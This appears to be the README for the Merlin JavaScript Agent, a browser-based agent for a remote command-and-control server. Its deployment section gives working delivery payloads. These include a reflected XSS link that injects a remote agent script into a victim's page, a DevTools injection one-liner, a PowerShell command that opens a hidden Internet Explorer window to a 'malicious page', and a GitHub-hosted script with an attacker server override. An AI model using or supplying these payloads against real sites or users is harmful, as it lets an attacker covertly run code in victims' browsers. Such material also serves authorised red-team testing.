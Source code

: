 # Merlin JavaScript Agent
This version of the Merlin Agent is written in JavaScript and can be run
in any location that can execute JavaScript. Web browsers can be found
on a multitude of devices to include computers, tablets, phones, TVs,
cars, and gaming systems. These are good candidates places to run a
Merlin agent.

An introductory blog post can be found here:
https://medium.com/@Ne0nd0g/merlin-javascript-all-up-in-your-browsers-e46d6449382


[![asciicast](https://asciinema.org/a/RHKqctghoo9fCkIVZjyMQV0N7.png)](https://asciinema.org/a/RHKqctghoo9fCkIVZjyMQV0N7)

## Usage
The Merlin JavaScript Agent functions the same as other agents. It is
controlled through the server using the same commands. It is important
to note that the Merlin JavaScript Agent is only capable of executing
JavaScript commands. For example, you could execute `2 + 2` and the
agent will return `4`. Alternatively, you can execute `alert('Merlin')`
and a JavaScript alert box will appear on the page where the Merlin
Agent is running.

## Limitations
* Browser must support HTTP/2
* JavaScript XHR calls will fail if using a self-signed/untrusted TLS
certificate
* Your commands are limited to the sandbox environment (unless there is
a vulnerability to escape it)
* Web browser must stay in the foreground on mobile devices to keep
running

## JavaScript Override Variable
The Merlin Server address is hardcoded into the `url` variable inside
of the JavaScript file. However, the Merlin JavaScript Agent will check
for existence of the `oURL` variable prior to executing the main
function. This variable is used to _override_ the hardcoded `url`
variable. This is useful when you want to deliver the JavaScript file
but don't want to change the `url` parameter prior to delivery. An
example of practical application is in the *Deployment Methods* section.

## Deployment Methods
* Merlin JavaScript Agent Test Page
* Cross-Site Scripting (XSS)
* Inject directly into the DOM
* Windows IE COM Object
* From github with override `oURL` JavaScript variable

### Merlin JavaScript Agent Test Page
Merlin ships with an HTML page that can be used to test the
_Merlin JavaScript Agent_. It can be found at `data/html/merlin.html`.
This page will automatically load the Merlin JavaScript agent, connect
to the Merlin Server, and start writing verbose messages to the screen.
The quickest way to try this out it is to use Python and start a simple
web server in the `html` directory (i.e.
`cd data/html;python -m SimpleHTTPServer`) and then browse to page with
`http://127.0.0.1:8000/merlin.html`.

### Cross-Site Scripting (XSS)
Let's assume that you've found a XSS vulnerability in a GET parameter
for Acme Widgets. For example the `page` parameter of
`https://www.acme.com/index.html?page=1` reflects back the value to the
user. You can exploit this XSS vulnerability to create a link that would
 deliver a Merlin Agent to a victim if they click the link. An example
 of the Merlin payload would be `var merlin=document.createElement('scri
 pt');merlin.src='http://127.0.0.1:8000/scripts/merlin.js';document.head.appendC
 hild(merlin);`.

 An example of the full payload is:

`https://www.acme.com/index.html?page=var%20merlin=document.createElement('script');merlin.src='http://127.0.0.1:8000/merlin.js';document.head.appendChild(merlin);`

### Inject into the DOM
Most web browser come with developer tools. These tools can be used to
execute JavaScript commands on _any page_ that you are viewing. On Firefox
 you can hit the `F12` key to open the developer Web Console. From
 there, you can execute this command:

`var merlin=document.createElement('script');merlin.src='http://127.0.0.1:8000/scripts/merlin.js';document.head.appendChild(merlin);`

### Windows IE COM Object
Using PowerShell, you can create and hide an Internet Explorer COM
object. This would create an Internet Explorer window, hide it so that
the user can't see it, and then browse to your malicious page. This
method also has the most obstacles. The newly created window will not
trust your self-signed certificates, so you must be using a valid TLS
certificate. _*For testing*_, you can circumvent this by making the
windows visible, browsing to the root of your web server, and creating
an exception in Internet Explorer. After creating the exception, then
you can navigate the web page to your malicious page and then hide the
window again. Additionally, Internet Explorer seems to error out if your
 malicious page is not served from the same place as your Merlin Server.
 This caused the hidden Internet Explorer window re-appear (made
visible) on its own.


You can use the built-in _Merlin JavaScript Agent Test Page_ to serve
the payload, but your probably better off creating a page somewhere
else with minimal HTML. If you decide to serve the _Merlin JavaScript
Agent Test Page_ to deliver the payload, you can shutdown the server
giving out the page (not the Merlin Server) right after it is grabbed
by the client. The malicious HTML page does not need to be available
after initial delivery. Merlin Server is not currently setup to serve
the _Merlin JavaScript Agent Test Page_ itself, yet. I will work on
getting it implemented.

An example PowerShell command is:

`$W=New-Object -com 'InternetExplorer.Application';$W.visible=$False;$W.navigate('http://www.acmewidgets.com:8000/merlin.html')`

### GitHub
You _should_ be able to use GitHub and the Override URL together as a
delivery method.

An example command is:
`var oURL='https://your.merlin.server:443/';var merlin=document.createElement('script');merlin.src='https://raw.githubusercontent.com/Ne0nd0g/merlin/master/data/html/scripts/merlin.js';document.head.appendChild(merlin);`